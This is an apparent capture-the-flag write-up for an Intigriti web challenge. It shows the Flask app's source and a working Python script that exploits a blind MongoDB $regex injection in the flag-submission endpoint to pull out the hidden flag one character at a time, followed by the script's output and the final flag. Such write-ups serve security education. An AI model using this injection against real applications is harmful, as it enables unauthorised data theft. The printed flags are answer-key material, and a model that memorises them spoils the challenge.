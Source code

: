 # CTFC

## Description

I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.*}

Author: Jopraveen
https://ctfc.ctf.intigriti.io 

## Source code analysis

Source code of the challenge web application is provided; main logic is written in `app.py`:

```python
from flask import Flask,render_template,request,session,redirect
import pymongo
import os
from functools import wraps
from datetime import timedelta
from hashlib import md5
from time import sleep

app = Flask(__name__)
app.secret_key = os.environ['SECRET_KEY']

# db settings
client = pymongo.MongoClient('localhost',27017)
db = client.ctfdb

def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

# login check
def check_login(f):
	@wraps(f)
	def wrap(*args,**kwrags):
		if 'user' in session:
			return f(*args,**kwrags)
		else:
			return render_template('dashboard.html')
	return wrap

# routes
from user import routes

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)

@app.route('/register')
def register():
	return render_template('register.html')

@app.route('/login')
def login():
	return render_template('login.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect('/')

@app.route('/submit_flag',methods=['POST'])
@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

Application home overview:

![home](./app_home.png)

The application, as reported in the description, is a mock CTF site; the CTF consists of only three challenges:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	
    db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})

	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": "INTIGRITI{fake_real_flag}","points": "1500","released": "False"})
```

The last one is not displayed in the web page and contains the actual challenge flag. Data is stored in a MongoDB database.

By intercepting one of the submission requests, we can see that the body has the following structure:

```json
{
    "_id":"_id:1",
    "challenge_flag":"test_flag"
}
```

The `_id` of the database record is the double md5 of the challenge number: we expect the `_id` of the challenge flag to be the result of the same operation computed on the value "3":

```python
>>> _id = md5(md5(str(3).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest()
>>> _id == "38026ed22fc1a91d92b5d2ef93540f20"
True
```

As we can see below, the application is vulnerable to **Blind Injection attacks**: if a correct query is executed, meaning the result is not Null, the application will return the message `"correct flag!"`:

```python
@app.route('/submit_flag',methods=['POST'])
#@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	print(f"submitted_flag: {submitted_flag}")
	query = {
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	print(f"query: {query}")
	chall_details = db.challs.find_one(
			query
	)
	print(f"chall_details: {chall_details}")
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

The injection is done through the `"challenge_flag"` body parameter; no sanitization on this value is done, meaning that we can set its value to a JSON object instead of a string.

Since the injection is blind, we must define a query that retrieves the flag character by character and returns a positive output anytime a new valid character is found:

```python
payload = { "_id": "_id:3", "challenge_flag": { "$regex": "^INTIGRITI{" }}
```

We can achieve this result using the `$regex` operator by defining as pattern the flag value known so far, adding to it a new character when discovered, until the whole flag is finally obtained.


```python
import requests
import string

submit_url = "https://ctfc.ctf.intigriti.io/submit_flag"
session_cookies = {"session": "session_cookie"}

flag = "INTIGRITI{"

payload = {"_id": "_id:3", "challenge_flag": {"$regex": flag}}
regex_characters = ['.', '^', '$', '*', '+', '?', '{', '[', ']', '(', ')', '|', '\\']

while "}" not in flag:
    for c in string.printable:
        if c in regex_characters:
            continue
        
        payload["challenge_flag"]["$regex"] = "^" + flag + c
        blind_response = requests.post(submit_url, json=payload, cookies=session_cookies)
        
        if "correct flag!" in blind_response.text:
            flag += c
            print(f"found a correct character -> flag is now: {flag}")
            break

print(flag) 
```

output:

```
found a correct character -> flag is now: INTIGRITI{h
found a correct character -> flag is now: INTIGRITI{h0
found a correct character -> flag is now: INTIGRITI{h0w
found a correct character -> flag is now: INTIGRITI{h0w_
found a correct character -> flag is now: INTIGRITI{h0w_1
found a correct character -> flag is now: INTIGRITI{h0w_1s
found a correct character -> flag is now: INTIGRITI{h0w_1s_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_P
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PA
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAW
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWS
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSI
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIB
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBL
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE
found a correct character -> flag is now: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```



